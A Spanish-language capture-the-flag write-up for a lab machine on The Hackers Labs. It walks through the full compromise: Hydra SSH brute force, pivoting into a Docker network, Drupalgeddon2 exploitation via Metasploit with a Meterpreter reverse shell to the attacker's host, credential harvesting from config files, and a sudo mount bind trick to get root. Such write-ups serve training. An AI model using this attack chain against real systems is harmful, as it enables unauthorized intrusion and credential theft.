

**Plataforma:** The Hackers Labs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Hydra` `Docker` `Pivoting` `Drupal` `Metasploit` `Sudoers`

## INSTALACIÓN

Descargamos el archivo `zip` que contiene la `.ova` de la máquina Pa Que Aiga Lujo, lo extraemos y la importamos en VirtualBox.

Configuramos la interfaz de red de la máquina Pa Que Aiga Lujo y la iniciamos junto a nuestra máquina atacante.

## RECONOCIMIENTO DE HOSTS

En este punto, aún desconocemos la dirección `IP` asignada a la máquina, por lo que procedemos a descubrirla:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:

```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:6f:3d:92      1      60  PCS Systemtechnik GmbH      
 10.0.4.91       08:00:27:80:8c:91      1      60  PCS Systemtechnik GmbH
```

Identificamos con seguridad que la `IP` de la víctima es `10.0.4.91`.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para identificar qué puertos están abiertos, seguido de un escaneo más exhaustivo para enumerar las versiones y servicios que corren en ellos.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.91
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 10.0.4.91
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-10 20:55 +0100
Nmap scan report for 10.0.4.91
Host is up (0.00021s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: LuxeCollection - Art\xC3\xADculos de Lujo Exclusivos
MAC Address: 08:00:27:FB:F8:B9 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

Identificamos los puertos `22` (SSH) y `80` (HTTP) abiertos.

Accedemos al servicio web y nos encontramos con una tienda de artículos de lujo.

Tras inspeccionar la página, recopilamos una `lista de nombres` propios que aparecen en ella para generar un diccionario de posibles usuarios.

users.txt:

```
Carlos
Isabella
Alexandre
Miguel
Elena
Sophia
Victoria
Anastasia
Roberto
James
Catherine
Margot
Valentina
Priscilla
Beatrice
```

## FUERZA BRUTA (SSH)

Con la lista de usuarios generada, procedemos a realizar un ataque de `fuerza bruta` contra el servicio `SSH` utilizando `Hydra` y el diccionario `rockyou.txt`.

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.4.91 -t 64
```

Info:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-02-10 21:04:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 229510384 login tries (l:16/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.0.4.91:22/
[22][ssh] host: 10.0.4.91   login: Sophia   password: dolphins
```

Encontramos credenciales válidas para la usuaria `Sophia` : `dolphins`.

Accedemos al sistema.

```bash
ssh Sophia@10.0.4.91
```

## RECONOCIMIENTO INTERNO

Una vez dentro, enumeramos los usuarios del sistema y detectamos la presencia de un usuario llamado `cipote`.

```bash
cat /etc/passwd | grep sh$
```

Info:

```
root:x:0:0:root:/root:/bin/bash
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
Sophia:x:1001:1001:,,,:/home/Sophia:/bin/bash
cipote:x:1002:1002:,,,:/home/cipote:/bin/bash
```

Analizamos las interfaces de red para identificar si estamos conectados a otras subredes.

```bash
ip a
```

Info:

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:fb:f8:b9 brd ff:ff:ff:ff:ff:ff
    inet 10.0.4.91/24 brd 10.0.4.255 scope global dynamic enp0s3
       valid_lft 370sec preferred_lft 370sec
    inet6 fe80::a00:27ff:fefb:f8b9/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ae:23:88:46 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:aeff:fe23:8846/64 scope link 
       valid_lft forever preferred_lft forever
5: veth7d79586@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 72:b4:9c:b3:44:9b brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::70b4:9cff:feb3:449b/64 scope link 
       valid_lft forever preferred_lft forever
```

Identificamos una interfaz `docker0` con la IP `172.17.0.1`. Esto sugiere que hay contenedores ejecutándose en esta red interna.

Realizamos un `Ping Sweep` para descubrir otros hosts activos en la subred `172.17.0.0/16`.

```bash
for i in {1..254} ;do (ping -c 1 172.17.0.$i | grep "bytes from" &) ;done
```

Info:

```
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.025 ms
```

Detectamos un `host` activo en `172.17.0.2`.

Para escanear este host interno cómodamente, transferimos la herramienta `fscan` desde nuestra máquina atacante a la máquina víctima.

En nuestra máquina atacante:

```bash
python3 -m http.server 80
```

En la máquina víctima (dentro de `/tmp`):

```bash
wget http://10.0.4.12/fscan .
```

Info:

```
--2026-02-10 21:22:22--  http://10.0.4.12/fscan
Conectando con 10.0.4.12:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 7100304 (6,8M) [application/octet-stream]
Grabando a: «fscan»

fscan                               100%[==================================================================>]   6,77M  --.-KB/s    en 0,02s   

2026-02-10 21:22:22 (304 MB/s) - «fscan» guardado [7100304/7100304]
```

A continuación, ejecutamos el escaneo apuntando a la dirección `IP` activa encontrada en la red interna.

```bash
chmod +x fscan
./fscan -h 172.17.0.2
```

Info:

```
   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
172.17.0.2:80 open
[*] alive ports len is: 1
start vulscan
[*] WebTitle http://172.17.0.2         code:200 len:8756   title:Welcome to Find your own Style | Find your own Style
[+] PocScan http://172.17.0.2 poc-yaml-drupal-cve-2018-7600-rce drupal8
已完成 1/1
[*] 扫描结束,耗时: 16.955325693s
```

El escaneo revela que el host `172.17.0.2` tiene el puerto `80` abierto y corre un `Drupal 8` vulnerable a `CVE-2018-7600` (Drupalgeddon2).

## PIVOTING Y EXPLOTACIÓN

Para explotar esta vulnerabilidad desde nuestra máquina atacante, realizamos un `Local Port Forwarding` a través de la sesión `SSH` de Sophia.

```bash
ssh -L 8080:172.17.0.2:80 Sophia@10.0.4.91
```

Ahora, el servicio `Drupal` interno es accesible desde nuestro `localhost:8080`.



Lanzamos `Metasploit` para explotar la vulnerabilidad.

```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS localhost
set RPORT 8080
run
```

Info:

```
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.0.4.12:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (41224 bytes) to 10.0.4.91
[*] Meterpreter session 1 opened (10.0.4.12:4444 -> 10.0.4.91:58680) at 2026-02-10 21:31:36 +0100

meterpreter > getuid
Server username: www-data
meterpreter >
```

¡Tenemos sesión de `Meterpreter` en el contenedor como usuario `www-data`!

## MOVIMIENTO LATERAL (CONTENEDOR)

Dentro del contenedor, buscamos credenciales o información sensible. Enumeramos los archivos de configuración de `Drupal`.

```bash
grep -r "password" /var/www/html/sites/default/settings.php
```

Info:

```
 * to replace the database username and password and possibly the host and port
 * 'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
```

Encontramos una contraseña: `ballenitafeliz`.

Comprobamos el archivo `/etc/passwd` y vemos que existe un usuario llamado `ballenita`.

Mejoramos la shell y migramos a ese usuario.

```bash
shell
/bin/bash -i
script -qc /bin/bash /dev/null 
su ballenita
```

## ESCALADA DE PRIVILEGIOS (CONTENEDOR)

Comprobamos los permisos `sudo` del usuario `ballenita`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for ballenita on 76f1a1515e36:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ballenita may run the following commands on 76f1a1515e36:
    (root) NOPASSWD: /bin/ls, /bin/grep
```

Podemos ejecutar `ls` y `grep` como `root` sin contraseña. Aprovechamos esto para listar el directorio `/root` y leer archivos sensibles.

```bash
sudo -u root /bin/ls -la /root
```

Info:

```
total 36
drwx------ 1 root root 4096 Aug 10  2025 .
drwxr-xr-x 1 root root 4096 Aug 10  2025 ..
-rw------- 1 root root   84 Aug 10  2025 .bash_history
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 2 root root 4096 Oct 16  2024 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root  169 Mar 14  2018 .wget-hsts
-rw-r--r-- 1 root root   36 Aug 10  2025 secretitomaximo.txt
```

```bash
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```

Info:

```
ElcipotedeChocolate-CipotitoCipoton
```

Hemos obtenido lo que parece ser la contraseña para el usuario `cipote` de la máquina anfitriona.

Cerramos la conexión con el contenedor y volvemos a la máquina principal `10.0.4.91`.

Usamos la contraseña obtenida para acceder como `cipote`.

```bash
ssh cipote@10.0.4.91
```

## ESCALADA DE PRIVILEGIOS (HOST)

Comprobamos permisos `sudo`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for cipote on TheHackersLabs-PaQueAigaLujo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cipote may run the following commands on TheHackersLabs-PaQueAigaLujo:
    (ALL) NOPASSWD: /usr/bin/mount
```

Podemos ejecutar `/usr/bin/mount` como `root`.

Consultando `GTFOBins`, vemos que podemos usar este comando para montar `/bin/bash` sobre `/bin/mount` y obtener una shell de `root` al ejecutarlo.

```bash
sudo /usr/bin/mount -o bind /bin/bash /bin/mount
sudo mount
```

Info:

```
root@TheHackersLabs-PaQueAigaLujo:/home/cipote# whoami
root
root@TheHackersLabs-PaQueAigaLujo:/home/cipote#
```

Ya somos root!

Por último, obtenemos las `flags` de usuario y root.

```
root@TheHackersLabs-PaQueAigaLujo:/# cat /home/cipote/user.txt 
f3e431cd1xxxxxxxxxxfcb2cc151e8  
root@TheHackersLabs-PaQueAigaLujo:/# cat /root/root.txt 
92f0383bbaxxxxxxd3087dc4636978
```
